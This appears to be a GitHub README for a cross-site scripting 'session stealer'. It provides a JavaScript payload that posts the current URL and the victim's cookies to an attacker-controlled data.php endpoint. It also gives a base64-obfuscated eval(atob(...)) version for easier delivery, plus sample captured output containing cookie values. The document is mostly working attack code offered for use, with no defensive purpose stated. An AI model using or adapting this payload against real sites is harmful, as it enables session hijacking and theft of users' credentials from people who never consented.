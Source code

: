 # Session Stealer (Cross-site Scripting)

Using the JavaScript payload found below will result in a XHR POST request containing the current URL (including variables) and Cookie(s) (if available).

The `data.php` file will create or append the data received to `output.txt`.

Data can be read directly from `output.txt` or using the included `output.php` file to process a cleaner output.



## JavaScript Payload

```
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "https://<host>/data.php", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
var data = "URL: " + window.location.href
if (document.cookie.length > 0) { data = data + " - Cookie(s): " + document.cookie; }
xhttp.send("data=" + btoa(data));
```

Payloads are often easier to deliver when encoded:

```
eval(atob("<base64_encoded_payload>"));
```
```
eval(atob("dmFyIHhodHRwID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7CnhodHRwLm9wZW4oIlBPU1QiLCAiaHR0cHM6Ly88aG9zdD4vZGF0YS5waHAiLCB0cnVlKTsKeGh0dHAuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwp2YXIgZGF0YSA9ICJVUkw6ICIgKyB3aW5kb3cubG9jYXRpb24uaHJlZgppZiAoZG9jdW1lbnQuY29va2llLmxlbmd0aCA+IDApIHsgZGF0YSA9IGRhdGEgKyAiIC0gQ29va2llKHMpOiAiICsgZG9jdW1lbnQuY29va2llOyB9CnhodHRwLnNlbmQoImRhdGE9IiArIGJ0b2EoZGF0YSkpOw=="));
```

## Output (via output.php)
```
Wed, 22 Jan 2020 19:45:10 +0000 - 216.58.204.142 - URL: https://www.youtube.com/watch?v=dQw4w9WgXcQ - Cookie(s): GPS=1; CONSENT=WP.282c94; dkv=a429137dbfccc284af4358caae87b369e3QEAAAAdGxpcGkVfCheMA==
```
